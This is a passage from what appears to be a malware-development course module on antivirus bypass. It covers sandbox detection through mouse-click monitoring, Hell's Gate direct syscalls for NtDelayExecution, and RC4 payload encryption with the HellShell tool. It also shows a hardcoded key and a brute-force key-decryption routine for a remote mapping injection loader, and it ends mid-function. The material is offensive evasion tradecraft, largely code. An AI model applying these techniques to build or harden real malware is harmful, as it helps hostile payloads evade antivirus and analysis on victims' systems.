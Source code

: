 **Main.c**

```c
if (!AntiAnalysis(20000)) {
	printf("[!] Detected A Virtualized Environment \n");
}
```

Where `20000` represents the time to monitor the mouse clicks in milliseconds.

#### NtDelayExecution Via Hell's Gate

Hell's Gate can be used to call `NtDelayExecution`, which requires updating the `VX_TABLE` structure definition located in `Common.h` and the `InitializeSyscalls` function to add the `VX_TABLE_ENTRY NtDelayExecution` element and initialize it. The `Hasher` program will also need to be used to calculate the hash for the syscall, as was done in previous steps.

### Anti-Analysis Results

The following image shows the output of the `AntiAnalysis` function at runtime.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-616804411-39794aab-14d5-439c-9f30-2ed26efe8dce.png)

### Payload Encryption

`HellShell.exe` will be used for payload encryption. The command that will be used is `.\HellShell.exe calc.bin rc4`, where `calc.bin` is the raw payload file. The encrypted payload will replace the previous unencrypted payload in the `main.c` file. Furthermore, the `Rc4EncryptionViSystemFunc032` function which is responsible for decryption will be saved in the `Inject.c` file.

#### Brute Force Decryption

`HellShell.exe` generates the key below.

```c
unsigned char Rc4Key[] = {
        0x61, 0x1A, 0xA0, 0xAA, 0xA7, 0x92, 0x9F, 0xBA, 0x8F, 0xCE, 0x4C, 0xD8, 0x11, 0xFA, 0xED, 0xB9 };
```

The key will be encrypted and then decrypted using the brute force method. First, the key needs to be encrypted. This will be done via a new project that will use the same algorithm as the `KeyGuard.exe` tool. The only difference is that the key is not randomly generated since `HellShell.exe` already generated one(`Rc4Key`). This new project is shared in this module's code and is named `KeyGuard2`.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-716812124-de717043-aa23-40c9-8058-f0ae0c06f407.png)

The `Rc4EncryptionViSystemFunc032` function will be updated to include the brute forcing logic. The function will be called by `RemoteMappingInjectionViaSyscalls`.

```c
BOOL Rc4EncryptionViSystemFunc032(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {

	// The return of SystemFunction032
	NTSTATUS        	STATUS				= NULL;
	BYTE			RealKey	[KEY_SIZE]	= { 0 };
	int			    b				    = 0;

	// Brute forcing the key:
	while (1) {
		// Using the hint byte, if this is equal, then we found the 'b' value needed to decrypt the key 
		if (((pRc4Key[0] ^ b) - 0) == HINT_BYTE)
			break;
		// Else, increment 'b' and try again
		else
```